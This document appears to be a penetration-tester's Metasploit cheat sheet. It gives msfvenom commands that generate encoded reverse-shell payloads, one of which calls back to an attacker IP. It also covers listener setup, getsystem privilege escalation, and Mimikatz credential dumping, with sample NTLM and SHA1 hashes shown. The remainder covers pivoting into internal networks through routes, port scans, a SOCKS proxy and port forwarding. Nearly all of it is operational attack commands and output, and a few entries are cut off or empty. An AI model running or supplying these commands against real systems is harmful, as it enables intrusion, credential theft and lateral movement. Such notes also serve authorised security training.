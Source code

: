 https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi` (NOTE: make sure to use the correct amount of bits, `64` or `32`, or shells won')
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.16.7 LPORT=4444 // Generate a staged ELF meterpreter reverse shell
```
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o winshell.dll LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

##### MSFConsole:
```
set payload METERPRETER_PAYLOAD  // meterpreter/ payloads
set LHOST 0.0.0.0
set LPORT 4444
run -j  // Run in background
```

### Post-exploitation

Getting system privileges
```
getuid
```
###### Example
```
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: ITWK01\luiza
(Meterpreter 5)(C:\Users\luiza) > getsystem
[-] Already running as SYSTEM
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 5)(C:\Users\luiza) > 

```


Loading Mimikatz and obtaining hashes:
```
load kiwi
creds_msv
```
###### Example
```
(Meterpreter 6)(C:\Users\luiza) > load kiwi        
Loading extension kiwi...                  
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)  
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
    
Success.
(Meterpreter 6)(C:\Users\luiza) > creds_msv  
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
offsec    ITWK01  1c3fb240ae45a2dc5951a043cf47040e  a914116eb78bec73deb3819546426c2f6bd80bbd

```


#### Pivoting
Scanning other IPs
```
ipconfig
// Check the internal IP (Ethernet adapter IPv4 Address)

// If in a Meterpreter session 
background

// Use the IP from the previous step, replacing the last octet with a 0. This will enable Metasploit to use the IP as a target, and the sessoin to target it to.
route add INTERNAL_IP /24 SESSION_ID
// To check
route print

use auxiliary/scanner/portscan/tcp
set RHOSTS TARGET_INTERNAL_IP_ADDRESS
set PORTS TARGET_PORTS                 // Suggester: 445, 3389. If the SMB ports are open, use exploit/windows/smb/psexec with the known credentials.
run
```

First, make sure that the `/etc/proxychains.conf` port is set to `1080`.

```
// If in a Meterpreter session:
background

// Setting up the proxy
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
run -j

// Regular commands can now be ran
proxychains xfreerdp /v:

```

##### Port forwarding in a Meterpreter session

Portfwd will create a local TCP relay of a remote port.
```
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

```
sessions -i SESSION_TO_ENTER
portfwd -h


portfwd add -l 3389 -p 3389 -r 172.16.5.200

xfreerdp /v:127.0.0.1 /u:USER
```

